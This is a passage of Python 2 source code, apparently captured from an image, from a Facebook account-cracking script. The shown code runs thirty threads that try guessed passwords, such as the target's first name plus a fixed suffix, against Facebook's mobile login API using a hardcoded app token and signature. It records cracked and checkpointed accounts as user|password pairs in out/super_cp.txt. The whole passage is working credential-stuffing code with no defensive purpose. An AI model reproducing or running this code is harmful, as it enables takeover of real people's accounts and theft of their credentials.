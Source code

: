 											else:
												if 'www.facebook.com' in q["error_msg"]:
													cek = open("out/super_cp.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													#Pass6
													pass6 = "kontol123"
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
														z = json.loads(x.text)
														print("\033[1;93m[ \033[1;93mOK✓\033[1;93m ] "+user+" 😁 " +pass6+" =>"+z['name'])
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															cek = open("out/super_cp.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															#Pass7
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name']+'doraemon321'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
																z = json.loads(x.text)
																print("\033[1;93m[ \033[1;93mOK✓\033[1;93m ] "+user+" 😁 " +pass7+" =>"+z['name'])
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	cek = open("out/super_cp.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 42*"\033[1;97m═"
	print '\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mDone \033[1;97m....'
	print"\033[1;91m[+] \033[1;92mTotal OK/CP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))
	print("\033[1;91m[+] \033[1;92mCP File saved \033[1;91m: \033[1;97mout/super_cp.txt")
	raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
	super()
######################################################
